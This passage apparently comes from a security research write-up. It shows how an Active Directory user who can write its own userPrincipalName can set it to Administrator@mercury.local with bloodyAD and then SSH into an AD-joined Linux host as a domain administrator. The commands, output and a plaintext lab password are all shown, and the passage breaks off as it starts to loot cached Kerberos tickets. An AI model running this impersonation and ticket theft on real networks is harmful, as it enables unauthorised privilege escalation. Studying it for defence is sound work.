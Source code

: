 Consider the following scenario, where the `gatari-ad` user has the ability to write to their own `userPrincipalName` attribute in Active Directory:

```
(LDAP)-[C-DC01.mercury.local]-[mercury\gatari-ad]
PV > Get-DomainUser -Identity 'gatari-ad' -Select sAMAccountName,userPrincipalName
sAMAccountName        : gatari-ad
userPrincipalName     : gatari@mercury.local
```

We can modify our `userPrincipalName` to the `Administrator` user, do note that this will not work if the `Administrator@mercury.local` UPN is already in use by another user, as the `userPrincipalName` must be unique across the domain.

```
~$ bloodyAD --host 'C-DC01.mercury.local' -u 'gatari-ad' -p 'P@ssw0rd' set object 'gatari-ad' 'userPrincipalName' -v 'Administrator@mercury.local'
[+] gatari-ad's userPrincipalName has been updated

(LDAP)-[C-DC01.mercury.local]-[mercury\gatari-ad]
PV > Get-DomainUser -Identity 'gatari-ad'
cn                                : gatari
distinguishedName                 : CN=gatari,CN=Users,DC=mercury,DC=local
name                              : gatari
objectGUID                        : {05e6a3b7-d036-4846-bbd1-521dce60468e}
userAccountControl                : NORMAL_ACCOUNT [512]
badPwdCount                       : 0
badPasswordTime                   : 16/07/2025 10:15:10 (today)
lastLogoff                        : 1601-01-01 00:00:00+00:00
lastLogon                         : 16/07/2025 10:22:51 (today)
pwdLastSet                        : 16/07/2025 09:01:02 (today)
primaryGroupID                    : 513
objectSid                         : S-1-5-21-1865292683-1165865761-2598954431-1689
sAMAccountName                    : gatari-ad
sAMAccountType                    : SAM_USER_OBJECT
userPrincipalName                 : Administrator@mercury.local
objectCategory                    : CN=Person,CN=Schema,CN=Configuration,DC=mercury,DC=local
```

### Password Authentication

Contrary to the expectation that this only works under the pretense of Kerberos SSO, based on my testing; this also works with password authentication. We can now authenticate to the Linux system as the `Administrator` user using the `gatari-ad` credentials.

```
~$ sshpass -p 'P@ssw0rd' ssh 'Administrator@mercury.local'@L-MGRT-APP001.mercury.local id

uid=7000500(administrator@mercury.local) gid=7000513(domain users@mercury.local) groups=7000513(domain users@mercury.local),7000512(domain admins@mercury.local),7000518(schema admins@mercury.local),7000519(enterprise admins@mercury.local),7000520(group policy creator owners@mercury.local),7000572(denied rodc password replication group@mercury.local)
```

After authenticating to the system, we can loot the cached TGT at `/tmp/krb5cc$(id -u)`:
